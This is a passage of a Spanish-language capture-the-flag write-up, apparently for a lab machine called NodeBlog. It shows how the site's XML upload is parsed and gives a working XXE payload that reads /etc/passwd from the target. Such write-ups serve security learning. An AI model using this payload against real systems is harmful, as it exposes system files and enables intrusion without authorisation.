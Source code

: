 Si pulsamos en `Upload` y subimos un archivo .txt nos veremos el mensaje `Invalid XML Example: Example DescriptionExample Markdown`. Si pulsamos CTRL + U para ver el código fuente de la página veremos esto `Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>`, un archivo xml con esta estructura sería este

```
<post>
    <title>Example Post</title>
    <description>Example Description</description>
    <markdown>Example Markdown</markdown>
</post>
```

Al `subir` el `archivo` se nos rellenan automáticamente los `campos` de `texto`, lo que quiere decir que está `interpretando` el `xml`

![](/assets/img/NodeBlog/image_5.png)

`Diseñamos` este `payload` para `leer` el `/etc/passwd` de la máquina víctima

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<post>
    <title>Example Post</title>
    <description>Example Description</description>
    <markdown>&xxe;</markdown>
</post>
```

`Subimos` el `archivo` y vemos que nos lo `interpreta`

![](/assets/img/NodeBlog/image_6.png)